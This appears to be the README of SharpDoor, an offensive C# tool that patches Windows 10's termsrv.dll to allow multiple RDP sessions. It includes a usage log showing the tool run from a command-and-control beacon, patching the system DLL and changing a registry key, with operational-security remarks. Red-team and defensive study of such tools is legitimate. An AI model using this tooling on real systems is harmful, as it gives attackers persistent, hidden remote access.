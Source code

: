 # SharpDoor
SharpDoor is alternative RDPWrap written in C# to allowed multiple RDP (Remote Desktop) sessions by patching termsrv.dll file, for opsec considerations SharpDoor still using cmd.exe to run sc services to impersonating as trustedinstaller in the future will be avoiding cmd.exe usage, currently only support for Windows 10.

Author - Rahmat Nurfauzi ([@infosecn1nja](https://twitter.com/infosecn1nja))

## Example

```
beacon> execute-assembly /root/Toolkits/SharpBinaries/SharpDoor.exe
[*] Tasked beacon to run .NET program: SharpDoor.exe
[+] host called home, sent: 115243 bytes
[+] received output:
   _____ _                      _____
  / ____| |                    |  __ \
 | (___ | |__   __ _ _ __ _ __ | |  | | ___   ___  _ __
  \___ \| '_ \ / _` | '__| '_ \| |  | |/ _ \ / _ \| '__|
  ____) | | | | (_| | |  | |_) | |__| | (_) | (_) | |
 |_____/|_| |_|\__,_|_|  | .__/|_____/ \___/ \___/|_|
                         | |
  v1.0.0                 |_|

Allow Multiple RDP (Remote Desktop) Sessions By Patching termsrv.dll File

[*] Termsrv.dll Version : 10.0.17763.1
[*] Stop termservice

[+] received output:
[*] Backup termsrv.dll to C:\Users\Public\termsrv.dll

[*] Attempting to patch termsrv.dll

Original File Hash : 24ff1f89f2ec3f5561c34810c8328726
Patched File Hash : 28b1bd1254f7a90dd3f05db08deef67b

[*] C:\Windows\System32\termsrv.dll was patched successfully

[*] Start termservice
[*] Attempting To Change Registry Key fSingleSessionPerUser
[*] Done
```
